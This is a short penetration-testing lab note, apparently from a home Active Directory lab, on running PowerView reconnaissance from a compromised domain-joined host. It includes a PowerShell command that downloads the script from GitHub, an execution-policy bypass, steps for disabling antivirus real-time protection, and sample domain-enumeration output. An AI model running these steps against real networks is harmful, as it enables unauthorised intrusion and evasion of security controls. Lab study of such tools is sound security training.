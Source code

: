 #PowerView 
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1


PowerView is ran internally from a compromised Domain joined host:\
- drag over from desktop to rdp session on Domain joined host
- Or from Domain joined host PowerShell

```
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
```


Then set Execution Policy to allow script to run:
- From PowerShell
```Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope CurrentUser```
- From cmd line
```powershell -ep bypass```

Run PowerView.ps1
`Import-Module .\PowerView.ps1`

May need to Temporarily Disable Antivirus

Open Windows Security:

Press Win + I to open Settings, then navigate to Update & Security > Windows Security.
Click on Virus & threat protection.
Manage Settings:

Under Virus & threat protection settings, click on Manage settings.
Disable Real-time Protection:

Turn off Real-time protection.

```
PS C:\Users\fcastle\Desktop> C:\Users\fcastle\Desktop\PowerView.ps1

PS C:\Users\fcastle\Desktop> Import-Module .\PowerView.ps1
Import-Module .\PowerView.ps1

PS C:\Users\fcastle\Desktop> Get-NetDomain


Forest                  : MARVEL.local
DomainControllers       : {HYDRA-DC.MARVEL.local}
Children                : {}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  : 
PdcRoleOwner            : HYDRA-DC.MARVEL.local
RidRoleOwner            : HYDRA-DC.MARVEL.local
InfrastructureRoleOwner : HYDRA-DC.MARVEL.local
Name                    : MARVEL.local

PS C:\Users\fcastle\Desktop> Get-NetDomainController


Forest                     : MARVEL.local
CurrentTime                : 7/3/2024 6:09:20 PM
HighestCommittedUsn        : 32849
OSVersion                  : Windows Server 2022 Standard Evaluation
Roles                      : {SchemaRole, NamingRole, PdcRole, RidRole...}
Domain                     : MARVEL.local
IPAddress                  : 192.168.95.132
SiteName                   : Default-First-Site-Name
SyncFromAllServersCallback : 
InboundConnections         : {}
OutboundConnections        : {}
Name                       : HYDRA-DC.MARVEL.local
Partitions                 : {DC=MARVEL,DC=local, 
                             CN=Configuration,DC=MARVEL,DC=local, 
                             CN=Schema,CN=Configuration,DC=MARVEL,DC=local, 
                             DC=DomainDnsZones,DC=MARVEL,DC=local...}
```

many more PowerView commands:
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
